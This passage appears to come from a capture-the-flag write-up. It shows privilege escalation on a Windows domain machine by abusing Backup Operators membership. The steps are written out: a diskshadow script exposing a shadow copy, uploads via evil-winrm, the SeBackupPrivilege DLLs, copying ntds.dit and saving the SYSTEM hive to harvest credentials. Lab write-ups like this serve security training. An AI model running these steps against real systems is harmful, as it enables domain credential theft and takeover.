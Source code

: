 ```
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/23/2020 11:03:50 AM

Logon hours allowed          All

Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

Looks like we are apart of the `Backup Operators` local group. A little research reveals that we can abuse this group to elevate our privileges. More information can be found [here](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group).

First, let's create a script text file that will contain parameters for the `diskshadow` command:

```
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  

create  

expose %mydrive% w:  
end backup
```

We will upload it to the box with `evil-winrm` and use the `diskshadow` command.

```
> upload script.txt
> diskshadow /s script.txt
```

In order to emulate the backup software, we need to upload two DLLs found [here](https://github.com/giuliano108/SeBackupPrivilege), import them, and use this to access the shadow copy back up.

```
> upload SeBackupPrivilegeCmdLets.dll
> upload SeBackupPrivilegeUtils.dll
> Import-Module .\SeBackupPrivilegeCmdLets.dll
> Import-Module .\SeBackupPrivilegeUtils.dll
```

Next, we'll grab the `ntds.dit` database file from the shadow copy, then dump the SYSTEM hive.

```
> Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\temp\ntds.dit -Overwrite
> reg save HKLM\SYSTEM c:\temp\system.hive
```
